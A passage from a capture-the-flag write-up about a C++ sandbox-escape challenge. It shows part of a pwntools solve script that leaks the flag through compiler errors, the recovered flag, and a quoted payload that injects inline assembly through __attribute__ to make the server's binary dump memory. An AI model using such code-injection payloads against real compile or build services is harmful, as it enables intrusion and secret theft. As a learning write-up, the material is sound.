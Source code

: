 ```python
        assert len(payload) <= 280
        for word in banned_words:
            if word in payload:
                log.error("You can't use " + word + " !!!")
                exit()

        r.sendlineafter(b"code:", payload.encode())
        err = r.recvuntil(b'skipping\n').decode()
        r.close()

        m = re.search(r'Key<std::integral_constant<bool, (false|true)> >', err).group(0)
        m = re.search(r'(false|true)', m).group(0)
    
        if m == 'true':
            flag += c
            log.info(f"Flag: {flag}")
            break

log.info(f"Flag: {flag}")
# Flag: bctf{Y0U_4rE_fUll_of_bu11****_C++_1s_@_h0rri8le_lang}
```

Overall, this challenge was really fun to work on. I thought the idea was really unique and despite the author's grievances about C++ 💀 (the challenge author followed up that they were just quoting Linux Torvalds rather than stating their own opinion), I thought it was still a really enjoyable challenge to work on!

## Post-CTF Discussion
After the CTF finished, I joined the discussion with some other teams for their solutions. There were many unintended solutions to this challenge which made things kind of interesting. I had a laugh at some of the unintended solutions that were shared and I wanted to share some of them here.

### Unintended: Exploiting the Binary
Similar to some of the C jail challenges I previously read about, some teams attempted to exploit the compiled binary by injecting shellcode into the source code that popped a shell since the compiled binary was run on the server and they could just read the `flag.h` file containing the flag. Here was an example payload that was shared by 9x14S after the CTF which involves using the `__attribute__` directive as part of payload to inject inline assembly code that pops a shell.

```
payload = flat(
    b"void\t__attribute__((section(\".fini\")))_fini(){__asm__(\"" +
    b"movq $1,%rax;movq $1,%rdi;lea (%rip,1),%rsi;movq $0x2500,%rdx;syscall;".replace(b' ', b'\t') +
    b"\");}"
)
```

### Unintended: Digraphs
While I thought about potentially using trigraphs, it turns out that [**digraphs**](https://en.wikipedia.org/wiki/Digraphs_and_trigraphs_(programming)) were actually a valid solution to this challenge. Digraphs are two character sequences that are meant to be treated as a single character. For C++, the digraph `%:` is equivalent to `#` which one of the teams used the [`#line`](https://learn.microsoft.com/en-us/cpp/preprocessor/hash-line-directive-c-cpp?view=msvc-170) preprocessing directive to inject the flag into the source code and leak the entire flag that way. While trigraphs were removed from the C and C++ language, digraphs apparently still are supported. The payload shown below was shared by [Surg](https://surg.dev/).
